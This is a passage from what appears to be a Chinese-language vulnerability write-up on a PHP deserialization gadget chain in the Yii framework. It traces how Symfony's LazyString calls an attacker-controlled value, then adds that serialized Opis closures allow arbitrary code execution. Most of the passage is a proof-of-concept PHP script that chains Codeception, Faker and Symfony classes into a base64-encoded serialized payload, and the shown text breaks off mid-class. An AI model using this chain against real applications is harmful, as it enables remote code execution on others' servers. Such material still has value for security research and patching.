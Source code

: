 不过$res还是用第一条链的方法可以控制的

循环语句有serialize方法,去找sleep函数、

```
vendor/symfony/string/LazyString.php
```

![image-20211010150345529](images/11.png)

跟进toString

![image-20211010150411529](images/12.png)

看到try里面的`return $this->value = ($this->value)();`

那这里的$this->value可控,我可以自定义一个闭包函数,而YII框架又是具有\Opis\Closure依赖的,那么就可以去序列化闭包函数，从而达到任意代码执行的目的

## 漏洞复现

```
<?php

namespace Codeception\Extension {

    use Faker\UniqueGenerator;

    class  RunProcess
    {

        private $processes = [];
        public function __construct()
        {
            $this->processes[] = new UniqueGenerator();
        }
    }
    echo base64_encode(serialize(new RunProcess()));
}

namespace Faker {

    use Faker\DefaultGenerator as FakerDefaultGenerator;
    use Symfony\Component\String\LazyString;

    class UniqueGenerator
    {
        protected $generator;
        public function __construct()
        {
            $this->generator = new DefaultGenerator();
        }
    }
    class DefaultGenerator
    {
        protected $default;
        public function __construct()
        {
            $this->default = new LazyString();
        }
    }
}

namespace Symfony\Component\String {
    class LazyString
    {
        private $value;
```
